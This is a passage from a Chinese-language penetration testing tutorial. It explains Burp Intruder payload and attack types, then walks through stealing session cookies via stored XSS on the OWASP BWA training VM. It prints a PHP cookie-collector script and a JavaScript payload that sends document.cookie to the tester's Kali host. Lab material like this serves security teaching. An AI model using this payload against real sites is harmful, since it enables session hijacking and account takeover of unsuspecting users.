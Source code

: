    + 简单列表：来自文件,由剪贴板传递或者写在文本框中的列表。
   
   + 运行时文件：Intruder 可以在运行时从文件中读取载荷，所以如果文件非常大,它不会完全加载进内存。
   
   + 数字：生成一列顺序或随机的数字，以十进制或十六进制形式。
   
   + 用户名生成器：接受邮件地址列表,从中提取可能的用户。
   
   + 爆破器：接受字符集并使用它来生成指定长度的所有排列。

   这些载荷由Intruder以不同形式发送，在 Positions 标签页中由攻击类型指定。攻击类型在载荷标记中的组合和排列方式上有所不同。

   + Sniper：对于载荷的单一集合，它将每个载荷值放在每个标记位置,一次一个。
   + Battering ram：类似Sniper,它使用载荷的单一集合,不同点是它在每个请求中将所有位置设置为相同的值。
   + Pitchfork：使用多个载荷集合，并将每个集合中的一个项目放到每个标记位置中。当我们拥有不能混用的预定义数据时，这会非常有用，例如测试已知的用户名和密码。
   + Cluster bomb：测试多个载荷，所以每个可能的排列都可以测试到。

## 6.6 通过XSS获得会话Cookie

### 准备

1.  启动kali中的apache服务`service apache2 start`，后面的工作中需要kali提供http服务。
   
2. 在apache的文档根目录/var/www/html/中创建savecookie.php文件
   
      ```php
      <?php
      $fp = fopen('/tmp/cookie_data.txt', 'a');
      fwrite($fp, $_GET["cookie"] . "\n");
      fclose($fp);
      ?>
      ```
   
   这个脚本收集有XSS脚本发送的cookie，并保存在Kali中/tmp/systemd-private-c9d63bc3cff94c9594a5babcad3aba1c-apache2.service-9irPvW/tmp/cookie_data.txt，可以在/tmp文件夹下运行`find -name cookie_data.txt`搜索该文件。

### 步骤

1. 打开Firefox浏览器，访问[owaspbwa][]/peruggia/，登录admin/admin，然后点击`comment on this picture`，输入
   
      ```javascript
      <script>
      var xmlHttp = new XMLHttpRequest();
      xmlHttp.open( "GET", "http://192.168.254.130/savecookie.php?cookie=" +
      document.cookie, true );
      xmlHttp.send( null );
      </script>
      ```
   
   注意IP地址是自己Kali的IP地址，点击POST，可以页面源代码中看到提交的脚本，同时页面会执行我们的脚本。
   
2. 打开OWASP Mantra浏览器，访问访问[owaspbwa][]/peruggia/，登录admin/admin，可以在cookie_data.txt文件中看到
   

[owaspbwa]: http://192.168.2.167